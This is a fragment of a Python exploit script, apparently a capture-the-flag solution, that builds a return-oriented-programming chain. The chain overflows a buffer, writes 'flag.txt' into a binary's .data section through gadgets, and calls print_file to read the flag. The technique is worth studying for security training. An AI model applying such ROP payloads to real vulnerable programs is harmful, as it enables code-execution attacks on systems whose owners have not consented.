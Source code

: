 	# our arguments 
	args = data_addr
	
	payload = [
	        buf,                    #bunch of A's
	        fake_ebp,               # BBBB
	        rop_gadget1_addr,       # addr of "pop edi; pop ebp; ret;"
	        edi,                    # addr of start of .data section header
	        ebp,                    # "flag"
	        useful_Gadget_addr,     # addr of useful gadget = mov [edi], ebp
	        rop_gadget1_addr,       # addr of "pop edi; pop ebp; ret;"
	        edi2,                   # addr of start of .data section header + 0x4
	        ebp2,                   # ".txt"
	        useful_Gadget_addr,     # addr of useful gadget = mov [edi], ebp
	        print_file_addr,        # addr of print_file in usefulFunction
	        fake_eip,               # addr of fake eip = "dddd"
	        args                    # arguments for print_file fxn = address of .data section header
	        ]
	
	payload = b"".join(payload)
	print("payload is: ", payload)
	
	p.send(payload)
	
	
	print(p.recvall())
	p.close()
